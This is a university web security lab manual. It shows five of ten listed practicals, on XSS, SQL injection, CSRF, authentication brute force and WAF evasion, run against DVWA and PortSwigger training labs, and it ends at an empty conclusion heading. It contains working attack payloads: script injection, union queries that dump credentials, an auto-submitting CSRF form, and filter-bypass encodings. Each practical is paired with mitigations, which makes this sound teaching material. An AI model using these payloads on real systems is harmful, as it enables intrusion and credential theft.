









:::info[LABORATORY MANUAL OVERVIEW]
- **Course Title:** Web Application Security Laboratory
- **Course Code:** 303105321
- **Department:** Computer Science and Engineering
- **Semester:** 5th Semester
- **Academic Session:** 2026-27
:::

## Practical Assessment Index

| Sr. No. | Experiment Title | Security Domain / Focus | Key Tools & Platforms |
| :---: | :--- | :--- | :--- |
| 1 | Cross-Site Scripting (XSS) Attacks | Client-Side Injection (Reflected, Stored, DOM) | DVWA, XAMPP, Browser DevTools |
| 2 | SQL Injection (SQLi) Attacks | Database Injection & Union-Based Data Extraction | DVWA, MySQL, Burp Suite |
| 3 | Cross-Site Request Forgery (CSRF) Attacks | Session-Riding & Unauthorized State Changes | Burp Suite, PortSwigger Academy, CSRF PoC |
| 4 | Broken Authentication & Session Management | Credential Spraying & Username Enumeration | Burp Suite Intruder, Hydra |
| 5 | Web Application Firewall (WAF) Evasion | Signature Bypass & Encoding Obfuscation | Wafw00f, WhatWaf, Python |
| 6 | Information Leakage & Sensitive Data Exposure | Error-Based Reconnaissance & Stack Disclosure | Burp Suite Repeater, HTTP History |
| 7 | File Inclusion & Web Shell Attacks | Arbitrary File Upload & Remote Code Execution | Burp Suite, PHP Web Shell, PortSwigger |
| 8 | Clickjacking (UI Redressing) Attacks | Transparent Iframe Overlay & Decoy Tricking | CSS Layering, Burp Suite Exploit Server |
| 9 | Security Configuration Issues (Path Traversal) | Arbitrary File Retrieval via Dot-Dot-Slash | Burp Suite Repeater, `/etc/passwd` |
| 10 | Input Validation, Sanitization & Command Injection | OS Command Chaining & Input Neutralization | DVWA, Command Separators (`;`, `&`, `|`) |

## 1. Practical 1: Cross-Site Scripting (XSS) Attacks

### 1.1 Aim
- Test a web application for Cross-Site Scripting (XSS) vulnerabilities and demonstrate how an attacker can exploit them to execute arbitrary scripts in the victim's browser.

### 1.2 Theory & Core Concepts
- **Cross-Site Scripting (XSS)**: An injection attack where malicious executable scripts are delivered to unsuspecting users through a trusted web application. The victim's browser has no way of knowing the script is untrusted and executes it with the full privileges of the origin.
- **Attack Objectives**:
  - Session cookie hijacking (`document.cookie`).
  - Account takeover and unauthorized actions.
  - Page defacement and arbitrary phishing redirects.
- **Classification of XSS**:
  - **Reflected XSS (Non-Persistent)**: The payload is submitted via HTTP request parameters (e.g., search queries, form inputs) and immediately reflected back in the HTTP response without persistence. Requires social engineering (tricking a victim into clicking a crafted URL).
  - **Stored XSS (Persistent)**: The injected script is permanently stored in the target database, comment section, message board, or visitor log. Every user retrieving that page executes the script.
  - **DOM-Based XSS**: The vulnerability resides completely in client-side JavaScript. Untrusted data from a **Source** (e.g., `location.search`, `document.URL`) flows into an execution **Sink** (e.g., `document.write()`, `innerHTML`, `eval()`) without reaching the server.



### 1.3 Tools & Environment
- **Environment**: XAMPP (Apache + MySQL)
- **Target Application**: Damn Vulnerable Web Application (DVWA)
- **Browser**: Chromium / Firefox Developer Edition

### 1.4 Step-by-Step Implementation

1. **Setup & Initialization**:
   - Start **Apache** and **MySQL** modules from the XAMPP Control Panel.
   - Place DVWA in `C:\xampp\htdocs\dvwa`.
   - Edit `config.inc.php` to configure database credentials:
     ```php
     $_DVWA['db_user'] = 'root';
     $_DVWA['db_password'] = '';
     ```
   - Open `http://127.0.0.1/dvwa/setup.php` and click **Create / Reset Database**.
   - Log in using default credentials (`admin` / `password`) and navigate to **DVWA Security** to set the security level to **Low**.

2. **Reflected XSS Execution**:
   - Navigate to the **XSS (Reflected)** tab.
   - Enter payload into the input field:
     ```html
     <script>alert("Hacked")</script>
     ```
   - Submit the form. The browser executes the injected JavaScript and renders an alert dialog.

3. **Stored XSS Execution**:
   - Navigate to the **XSS (Stored)** tab.
   - In the **Guestbook Name** and **Message** fields, enter:
     ```html
     <script>alert("Stored XSS Exploit")</script>
     ```
   - Click **Sign Guestbook**. The payload is committed to the backend MySQL database.
   - Refresh the page or access it from a different browser session; the script executes automatically upon each page visit.

4. **DOM-Based XSS Execution**:
   - Navigate to the **XSS (DOM)** tab.
   - Modify the language selection URL parameter:
     ```text
     http://127.0.0.1/dvwa/vulnerabilities/xss_d/?default=<script>alert("DOM_XSS")</script>
     ```
   - Press Enter. The client-side script parses `location.href` and writes the payload directly into the DOM via `document.location`, triggering the alert.

### 1.5 Mitigation & Countermeasures
- **Context-Aware Output Encoding**: HTML entity encode characters (`<`, `>`, `&`, `"`, `'`) before writing dynamic data into HTML body, attributes, or script contexts.
- **Input Validation**: Use strict server-side allowlists.
- **Content Security Policy (CSP)**: Deploy strict CSP headers restricting script origins and blocking inline scripts (`script-src 'self'`).
- **Cookie Flags**: Mark authentication cookies with `HttpOnly` to prevent JavaScript access via `document.cookie`.

### 1.6 Conclusion
- Successfully demonstrated Reflected, Stored, and DOM-based XSS attacks on DVWA. The exercise proves that failing to sanitize inputs and encode outputs permits arbitrary code execution in user browsers.

## 2. Practical 2: SQL Injection (SQLi) Attacks

### 2.1 Aim
- Gain hands-on experience in identifying and exploiting SQL Injection (SQLi) vulnerabilities to read, extract, and manipulate backend database records.

### 2.2 Theory & Core Concepts
- **SQL Injection (SQLi)**: Occurs when untrusted user input is directly concatenated into a dynamic SQL query without proper sanitization or parameterization.
- **SQLi Categories**:
  - **In-Band SQLi (Classic)**: Data retrieval and error messages occur through the same communication channel.
    - *Error-Based*: Forcing syntax errors that leak database schema details.
    - *Union-Based*: Combining results of the original query with an attacker-crafted query using the `UNION` operator.
  - **Inferential SQLi (Blind)**: No data is displayed directly in responses.
    - *Boolean Blind*: Measuring true/false application behavior changes based on injected conditions.
    - *Time-Based Blind*: Injecting database sleep calls (e.g., `SLEEP(5)`) to infer data bit-by-bit from response latency.
  - **Out-of-Band SQLi**: Triggering external DNS or HTTP requests from the database server to exfiltrate data.



### 2.3 Step-by-Step Implementation

1. **Target Environment**:
   - Access **DVWA** at `http://127.0.0.1/dvwa/`.
   - Set **DVWA Security** to **Low**.
   - Navigate to the **SQL Injection** tab.

2. **Fingerprinting & Version Identification**:
   - Determine number of columns and verify database version:
     ```sql
     %' or 0=0 union select null, version()#
     ```
   - Check current database user:
     ```sql
     %' or 0=0 union select null, user()#
     ```

3. **Database Enumeration**:
   - Retrieve current active database name:
     ```sql
     %' or 0=0 union select null, database()#
     ```

4. **Table Enumeration via Information Schema**:
   - List all tables registered within `information_schema`:
     ```sql
     %' and 1=0 union select null, table_name from information_schema.tables#
     ```
   - Filter for tables related to user authentication:
     ```sql
     %' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%'#
     ```

5. **Column Enumeration**:
   - List columns in the identified `users` table:
     ```sql
     %' and 1=0 union select null, concat(table_name, 0x0a, column_name) from information_schema.columns where table_name = 'users'#
     ```

6. **Credential Dumping**:
   - Extract usernames and hashed passwords:
     ```sql
     %' and 1=0 union select null, concat(first_name, 0x0a, last_name, 0x0a, user, 0x0a, password) from users#
     ```

### 2.4 Mitigation Strategies
- **Prepared Statements (Parameterized Queries)**: Pre-compiles the SQL query structure and treats user inputs strictly as parameters, neutralizing executable SQL syntax:
  ```php
  $stmt = $pdo->prepare('SELECT * FROM users WHERE id = :id');
  $stmt->execute(['id' => $userId]);
  ```
- **Stored Procedures**: Encapsulate queries with strongly typed parameters.
- **Principle of Least Privilege**: Run database servers with restricted user privileges (e.g., prevent reading `information_schema` or modifying schemas).

### 2.5 Conclusion
- Successfully executed Union-based SQL injection on DVWA, progressing from database fingerprinting to full credential extraction. Parameterized queries represent the primary defense against SQLi.

## 3. Practical 3: Cross-Site Request Forgery (CSRF) Attacks

### 3.1 Aim
- Demonstrate how an attacker can leverage CSRF vulnerabilities to trick an authenticated user into performing unintended, unauthorized state-changing actions.

### 3.2 Theory & Core Concepts
- **Cross-Site Request Forgery (CSRF)**: An attack that abuses the browser's automatic inclusion of session cookies with cross-site requests. When an authenticated user visits an attacker-controlled page, malicious scripts submit forged requests to the vulnerable target application on the user's behalf.
- **Preconditions for CSRF**:
  - A relevant action (state-changing request like password or email update).
  - Cookie-based session handling.
  - Predictable request parameters (no unpredictable anti-CSRF token).
- **Flawed & Inadequate Defenses**:
  - *Secret Cookies*: Browsers automatically send all cookies regardless of request origin.
  - *POST-Only Requests*: Trivially bypassed via hidden auto-submitting HTML forms.
  - *Multi-Step Transactions*: An attacker can predict and orchestrate each sequential step.
  - *HTTPS*: Encrypts the transport channel but does not validate user intent.
  - *Referer Header Checking Alone*: Often stripped by privacy extensions or spoofed.



### 3.3 Step-by-Step Implementation (PortSwigger Web Security Academy)

1. **Environment Setup**:
   - Launch **Burp Suite Community Edition** and start a temporary project.
   - Configure proxy listener on `127.0.0.1:8080` and launch the integrated Chromium browser.
   - Navigate to the PortSwigger Lab: *"CSRF vulnerability with no defenses"*.

2. **Intercepting Normal State-Changing Request**:
   - Log into the lab using account credentials (`wiener` / `peter`).
   - Enable **Burp Intercept** under **Proxy -> Intercept**.
   - In the lab application, change the account email to `test1@example.com` and submit.
   - Inspect the captured POST request in Burp:
     ```http
     POST /my-account/change-email HTTP/1.1
     Host: vulnerable-lab.web-security-academy.net
     Cookie: session=xyz123...
     Content-Type: application/x-www-form-urlencoded

     email=test1%40example.com
     ```

3. **Constructing the CSRF Exploit PoC**:
   - In Burp, generate or manually craft a hidden HTML form that automatically submits on page load:
     ```html showLineNumbers
     <html>
       <body>
         <form action="https://vulnerable-lab.web-security-academy.net/my-account/change-email" method="POST">
           <input type="hidden" name="email" value="pwned@attacker.com" />
         </form>
         <script>
           document.forms[0].submit();
         </script>
       </body>
     </html>
     ```

4. **Delivering the Exploit**:
   - Navigate to the **Exploit Server** provided by the lab.
   - Paste the exploit HTML payload into the **Body** section.
   - Click **Store**, then click **Deliver exploit to victim**.
   - The lab simulates the victim browsing the exploit page. The victim's browser automatically submits the POST request along with their valid session cookie, changing the account email to `pwned@attacker.com`.

### 3.4 Remediation
- **Anti-CSRF Tokens (Synchronizer Token Pattern)**: A cryptographically strong, unpredictable token generated server-side and checked upon every state-changing request.
- **SameSite Cookie Attribute**: Set `SameSite=Strict` or `SameSite=Lax` on session cookies to prevent automatic cross-site transmission.
- **Re-Authentication**: Require current password verification before critical account updates.

### 3.5 Conclusion
- Proved that automatic cookie attachment enables unauthorized actions when applications lack anti-CSRF token verification. Implementing cryptographically random tokens and `SameSite` cookie policies prevents CSRF.

## 4. Practical 4: Broken Authentication & Session Management

### 4.1 Aim
- Identify and exploit flaws in authentication and session mechanisms, demonstrating credential spraying, username enumeration, and brute-force attacks.

### 4.2 Theory & Core Concepts
- **Broken Authentication**: Flaws permitting attackers to compromise passwords, keys, or session tokens, allowing them to assume identities of legitimate users.
- **Common Vulnerabilities**:
  - Absence of multi-factor authentication (MFA).
  - Weak or predictable password policies.
  - Credential stuffing and lack of rate limiting.
  - Exposure of session identifiers in URLs.
  - Lack of session expiration / session fixation.
- **Username Enumeration**: Subtle discrepancies in server responses (different error messages, HTTP status codes, or response length) that reveal whether an entered username exists in the system.



### 4.3 Step-by-Step Implementation (PortSwigger Lab)

1. **Target**: *Username enumeration via different responses*.
2. **Reconnaissance & Enumeration**:
   - Open Burp Suite and capture a failed login attempt with an invalid username (`testuser`) and password (`testpass`).
   - Notice the error message: `Invalid username`.
   - Send the request to **Burp Intruder**.
   - Set attack type to **Sniper** and place the payload marker on the username field.
   - Load a candidate list of common usernames into the **Payloads** tab and start the attack.
   - Sort results by **Response Length**. A valid username (e.g., `administrator`) yields a distinct response message: `Incorrect password`.

3. **Password Brute-Force**:
   - Update the username field in Intruder to the confirmed valid username (`administrator`).
   - Move the payload marker to the password parameter.
   - Load a wordlist of candidate passwords into the **Payloads** tab.
   - Launch the attack. Identify the single request that results in a **302 Found** redirect and unique response length.
   - Log in using the discovered credentials to solve the lab.

### 4.4 Mitigation Strategies
- **Uniform Error Messages**: Always display generic feedback such as *"Invalid username or password"*.
- **Account Lockout & Rate Limiting**: Temporarily lock accounts or introduce IP-based exponential delays after repeated failed attempts.
- **Multi-Factor Authentication (MFA)**: Require a secondary verification channel (TOTP / FIDO2).
- **Secure Password Storage**: Hash passwords using memory-hard adaptive hashing algorithms (Argon2id, bcrypt).

### 4.5 Conclusion
- Demonstrated how subtle differences in response messages permit username enumeration, followed by successful password cracking. Enforcing uniform responses and rate limiting prevents automated credential attacks.

## 5. Practical 5: Web Application Firewall (WAF) Evasion

### 5.1 Aim
- Test a Web Application Firewall (WAF) and demonstrate techniques used to detect, fingerprint, and bypass firewall filtering policies.

### 5.2 Theory & Core Concepts
- **Web Application Firewall (WAF)**: An intermediary proxy inspecting HTTP/HTTPS traffic to block recognized web attacks (SQLi, XSS, Path Traversal) according to predefined rule sets (e.g., OWASP ModSecurity Core Rule Set).
- **WAF Evasion Principles**:
  - **Case Variation**: Exploiting case-insensitive backend parsing (`sElEcT`, `<sCrIpT>`).
  - **Character Encoding**: Using URL encoding, Double URL encoding, or Unicode transformations (`%2527`, `%u0027`).
  - **Inline Comment Insertion**: Breaking keywords while maintaining SQL validity (`UN/**/ION/**/SEL/**/ECT`).
  - **Whitespace Substitution**: Replacing spaces with tabs, newlines, or parenthetical groupings (`SELECT(username)FROM(users)`).
  - **HTTP Parameter Pollution (HPP)**: Splitting payloads across repeated parameters (`?id=1&id=UNION&id=SELECT`).



### 5.3 Tools & Execution

1. **WAF Fingerprinting with `wafw00f`**:
   - Clone and run the `wafw00f` tool to determine the active firewall vendor:
     ```bash showLineNumbers
     git clone https://github.com/EnableSecurity/wafw00f.git
     cd wafw00f
     python3 setup.py install
     wafw00f https://target-domain.com
     ```
   - Inspect detection output identifying vendors (e.g., Cloudflare, AWS WAF, Imperva, ModSecurity).

2. **Automated Evasion Testing with `WhatWaf`**:
   - Clone and execute `WhatWaf`:
     ```bash showLineNumbers
     git clone https://github.com/Ekultek/WhatWaf.git
     cd WhatWaf
     pip install -r requirements.txt
     ./whatwaf -u "https://target-domain.com/search.php?q=test"
     ```
   - The tool automatically attempts multiple tamper scripts (e.g., `between`, `charencode`, `space2comment`) to determine effective bypass techniques.

### 5.4 Mitigation
- **Normalize Inputs Before Inspection**: WAFs must decode and canonicalize inputs prior to applying signature checks.
- **Positive Security Model (Allowlisting)**: Define strict schemas for input structure rather than relying solely on blacklists.
- **Defense in Depth**: WAFs should complement, never replace, secure coding standards.

### 5.5 Conclusion
